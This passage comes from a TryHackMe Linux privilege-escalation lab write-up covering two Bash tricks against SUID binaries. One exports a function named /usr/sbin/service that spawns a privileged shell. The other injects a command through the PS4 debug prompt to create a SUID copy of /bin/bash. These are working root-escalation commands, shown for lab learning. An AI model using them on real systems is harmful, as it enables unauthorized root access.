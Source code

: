 Looks like the Bash version running on the machine is vulnerable to this attack.

Let's create a Bash function and export it with the name `/usr/sbin/service` that executes a new Bash shell (using -p to retain permissions).

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```
Once the function is exported, run the *suid-env2* binary to gain a root shell.

![Shell Feature 1 PrivEsc](../../assets/images/thm/linuxprivesc/60-shell_escape_1_privesc.png)

## Task 15 - SUID/SGID Executables - Abusing Shell Features (#2)
In this task, we will be abusing the debugging mode in Bash shell (version < 4.4). Bash versions less than 4.4 uses the environment variable *PS4* to display an extra prompt for debugging statements. Debugging statements can be used to embed commands which present an privilege escalation vector for attackers.

Let's run the `/usr/local/bin/suid-env2` binary with Bash debugging enabled and the *PS4* variable set to an embedded command wich creates an SUID version of `/bin/bash`.

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```
![Shell Feature 2 Debug Mode](../../assets/images/thm/linuxprivesc/61-shell_escape_2_debug.png)
